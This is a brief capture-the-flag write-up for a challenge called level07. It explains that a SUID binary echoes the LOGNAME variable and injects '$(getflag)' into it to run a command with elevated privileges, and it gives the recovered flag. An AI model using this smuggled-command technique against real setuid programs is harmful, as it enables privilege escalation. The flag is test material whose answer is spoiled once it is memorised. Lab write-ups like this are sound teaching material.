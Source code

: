 # level07

`ls`
![[ls.png]]
> *SUID bit*

`strings level07`
![[strings.png]]
> echoes the `LOGNAME` env var

`export LOGNAME='$(getflag)'`
`./level07`
![[flag.png]]

### Flag = fiumuikeil55xe9cu4dood66h
